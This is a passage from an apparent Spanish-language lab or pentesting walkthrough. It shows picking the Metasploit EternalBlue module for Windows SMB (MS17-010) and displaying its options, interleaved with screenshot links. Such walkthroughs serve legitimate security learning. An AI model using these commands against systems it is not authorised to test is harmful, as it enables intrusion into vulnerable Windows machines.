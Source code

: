     <img src="../img/Pasted_image_20241226134124.png" width="500">
</p>

Tenemos muchos módulos, pero el que usaremos el es primero. Así que usamos el módulo
```
use 0 
#ó
use exploit/windows/smb/ms17_010_eternalblue 
```

<p align="center">
    <img src="../img/Pasted_image_20241226134220.png" width="500">
</p>


Vemos las opciones del módulo
```
show options
```

<p align="center">
    <img src="../img/Pasted_image_20241226134255.png" width="500">
</p>
